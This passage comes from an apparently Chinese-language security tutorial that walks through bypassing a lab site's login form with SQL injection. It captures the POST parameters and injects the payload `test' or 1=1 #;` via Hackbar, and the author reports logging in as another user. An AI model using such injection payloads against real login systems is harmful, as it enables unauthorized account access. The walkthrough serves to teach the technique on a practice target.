 `/**/` 多行注释：<br>
`select admin_username from admin where admin_id=1;/*多行注释*/;`
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614683800141.png)

接下来我们来尝试构造利用一下<br>
登陆界面先抓包看一下提交地址和 POST 参数<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614684146627.png)

提交地址：`http://www.vul.com/checkUser.php`<br>
POST 参数：`user_name=test&user_pass=test1`<br>

我们使用 Hackbar 来重新构造提交数据<br>
这里把 user_name 的值更改为我们构造的语句 `test' or 1=1 #;`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614685331639.png)

来提交一下，看是否能登陆成功<br>
成功登陆账号为 123 的用户<br> 